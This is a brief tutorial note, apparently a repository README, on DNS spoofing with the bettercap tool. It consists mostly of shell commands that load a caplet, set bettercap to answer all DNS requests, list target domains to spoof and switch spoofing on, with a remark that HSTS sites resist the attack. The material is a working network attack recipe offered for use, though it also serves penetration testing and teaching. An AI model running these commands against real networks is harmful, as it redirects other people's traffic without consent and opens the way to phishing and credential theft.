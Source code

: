 # DNS spoofing

- Run bettercap with the commands in spoof.cap
```
$ bettercap -iface eth0 -caplet spoof.cap
```

- Set and run dns.spoof
```
$ set dns.spoof.all true
$ set dns.spoof.domains <domain1.com,*.domain1.com,domain2.com,...>
$ dns.spoof on
```
set dns.spoof.all true tels bettercap to response to all DNSs requests<br>
set dns.spoof.domains targets the domains we want to spoof<br>

This will work for all websites except those who run with HSTS protocol 
